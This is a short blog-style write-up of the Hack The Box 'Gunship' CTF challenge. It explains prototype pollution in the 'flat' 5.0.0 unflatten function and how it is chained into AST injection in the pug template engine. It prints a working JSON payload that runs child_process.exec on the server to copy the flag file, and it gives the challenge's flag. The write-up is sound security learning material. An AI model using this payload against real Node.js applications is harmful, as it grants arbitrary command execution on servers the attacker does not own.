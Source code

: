 ```yaml
---
title: "HTB Challenge - Gunship"
pubDate: "2024-11-11"
description: "CTF challenge writeup."
tags:
  - writeups
  - ctf
  - prototype pollution
  - js
toc: true
math: true
---
```


This is a prototype pollution challenge as I realized by having pinned packages such as `"flat": "5.0.0"`, we then can see the vulnerability related to it which is [this](https://security.snyk.io/vuln/SNYK-JS-FLAT-596927).

So the challenge starts with a simple submit input that takes an artist name and sends it to the backend.

```js
router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);
	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')(
				{ user: 'guest' }
			)
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});
```

Here we evaluate the `req.body` with the vulnerable `unflatten`, and we can pollute it. After a lot of trial and error I eventually realized that I need to use AST injection instead of this [vulnerability that I couldn't exploit](https://github.com/pugjs/pug/issues/3312). 

After reading [some more](https://rayepeng.medium.com/how-ast-injection-and-prototype-pollution-ignite-threats-abb165164a68) I've polluted the `block` with the following payload:

```json
{
    "artist.__proto__": {
        "name": "Haigh",
	    "block": {
			"type":"Text",
		    "line": "process.mainModule.require('child_process').exec('cp /app/flag* /app/static/images/f')"
	    }
	}
}
```

Then we can access the flag visiting `/static/images/f`

```
HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}
```
